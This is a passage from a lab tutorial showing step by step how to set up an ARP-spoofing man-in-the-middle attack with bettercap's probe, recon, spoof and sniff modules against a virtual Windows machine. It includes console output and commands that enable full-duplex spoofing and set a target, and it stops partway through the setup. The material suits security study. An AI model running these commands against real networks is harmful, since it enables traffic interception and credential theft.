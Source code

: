 **To perform a MITM attack we will use these modules below:**

module | about 
-- | --
`net.probe` | When activated, this module will send different types of probe packets to each IP in the current subnet in order for the net.recon module to detect them. [[+]](https://www.bettercap.org/modules/ethernet/net.probe/)
`net.recon` | This module is responsible for periodically reading the system ARP table in order to detect new hosts on the network. [[+]](https://www.bettercap.org/modules/ethernet/net.recon/)
`arp.spoof` | This module keeps spoofing selected hosts on the network using crafted ARP packets in order to perform a MITM attack. [[+]](https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/)
`net.sniff` | This module is a network packet sniffer and fuzzer supporting both BPF syntax and regular expressions for filtering. It is also able to dissect several major protocols in order to harvest credentials. [[+]](https://www.bettercap.org/modules/ethernet/net.sniff/)

_You can type `help` following with the `module` name to grab some details about:_<br>
![b2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/c2be3479c96a94b3d2c042e8c8c4df20a4a06b57/bettercap-2.png)


## Setting up the Modules to perform an ARP spoofing


1. Start the **prober** module to send different types of probe packets to each IP in the current subnet in order for the **net.recon** module to detect them. _(Note: the prober module may start automatically the net.recon module)._<br><br>
`net.probe on`

```
10.0.2.0/24 > 10.0.2.42  » net.probe on
10.0.2.0/24 > 10.0.2.42  » [11:43:32] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
10.0.2.0/24 > 10.0.2.42  » [11:43:32] [endpoint.new] endpoint 10.0.2.3 detected as 07:00:27:11:6c:7d .
10.0.2.0/24 > 10.0.2.42  » [11:43:33] [endpoint.new] endpoint 10.0.2.43 detected as 07:00:27:81:d6:f2 .
```
In my lab, the **10.0.2.43** is my Windows virtual machine, this may differ from your virtual environment.

2. Start network hosts discovery:<br><br>
`net.recon on`

* Note: you can type `net.show` to view all the connected clients viewing the IP addresses and MAC addresses.

3. Set the **arp.spoof** module option **fullduplex** to **true**. When you set to true, both the targets and the gateway will be attacked, otherwise only the target (if the router has ARP spoofing protections in place this will make the attack fail).<br><br>
`set arp.spoof.fullduplex true`

4. Specify the target to spoof. _(A comma separated list of MAC addresses, IP addresses, IP ranges or aliases to spoof)._<br><br>
`set arp.spoof.targets 10.0.2.43`
